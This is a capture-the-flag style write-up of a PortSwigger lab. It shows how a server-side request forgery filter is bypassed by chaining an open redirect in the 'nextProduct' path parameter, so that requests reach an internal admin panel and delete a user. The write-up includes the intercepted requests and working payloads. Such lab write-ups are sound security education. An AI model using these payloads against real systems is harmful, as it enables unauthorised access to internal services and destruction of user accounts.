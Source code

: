 
<p align="center">
  <img src="./screenshots/ssrf_logo_.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - with filter bypass via open redirection vulnerability
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 23.04.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SSRF (`open redirect`)

---

## 🔍 Request interception

> Intercepting the main stock-fetch request in BurpSuite:

```http

POST /product/stock HTTP/2
Host: 0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```none
stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1
```

> with 'urlencode' extension

```none

stockApi=<@urlencode>/product/stock/check?productId=14&storeId=1</@urlencode>

```

> I need to bypass regular SSRF protection.
> On the product description page there is an option to open the next product (next product).

## Intercepting this request (functionality next product)

```http

GET /product/nextProduct?currentProductId=15&path=/product?productId=16 HTTP/2
Host: 0a9e004c0393e4df8052ad46005c008a.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e004c0393e4df8052ad46005c008a.web-security-academy.net/product?productId=15
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> I use SSRF filter bypass technology via open redirect. I replace the value of the “path” parameter with “http://192.168.0.12:8080/admin/” in main reqeust
> and receive a response with access to the admin panel.

```none

stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/</@urlencode>

```

> I access the admin panel and users.

![Access Admin panel](./screenshots/access_admin_panel.png)

> I delete the user 'Carlos' with url 'http://192.168.0.12:8080/admin/delete?username=carlos'

```none
 
stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/delete?username=carlos</@urlencode>

```

![Solved lab](./screenshots/solved_lab.png)
